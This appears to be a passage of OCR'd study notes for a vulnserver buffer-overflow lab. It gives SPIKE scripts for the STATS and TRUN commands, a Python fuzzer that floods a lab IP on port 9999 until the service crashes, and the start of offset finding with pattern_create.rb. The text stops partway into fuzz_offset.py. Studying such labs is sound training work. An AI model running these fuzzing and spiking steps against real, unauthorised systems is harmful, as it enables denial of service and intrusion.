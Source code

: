         range setup - run vulnserver and immunity as admin. 
            immunity > file > attach > vulnserver
            press play
            from kali connect with `nc -nv <ip> 9999`
            
    `spiking` try multiple commands to see if any are vuln to `BO`
        use `generic_send_tcp <ip> <port> <script>.spike 0 0`
            if we get an overflow it will crash the server, try `stats`
            then `trun`
            
            `stats.spike` script:
            s_readline();
            s_string("STATS ");
            s_string_variable("0");    
        
            `trun.spike` script:
            s_readline();
            s_string("TRUN ");
            s_string_variable("0");    
            
    `fuzzing` send alot of charaters at the vuln command found in `spiking`
        
            fuzz.py
            #!/usr/bin/python
            import sys, socket
            from time import sleep
            
            buffer = "A" * 100
            
            while True:
                try:
                        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                        s.connect(('172.16.253.150', 9999))
                            
                        s.send(('TRUN /.:/' + buffer))
                        s.close()
                        sleep(1)
                        buffer = buffer + "A"*100
                                 
                except:
                        print "Fuzzing crashed at %s bytes" % str(len(buffer)) 
                        sys.exit()
                        
        run the script and when it ends it will tell you around where it
        crashed in byes. Now we can use the number of bytes and figure out
        the exact location of the `EIP` and the `offset`
        
    finding the `offset`    
        `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000`
        this will make a cyclical chain of charaters that we need for
        `fuzz_offset.py`
            `fuzz_offset.py`
            #!/usr/bin/python
            import sys, socket
            
            offset = "<cyclical chain>"
            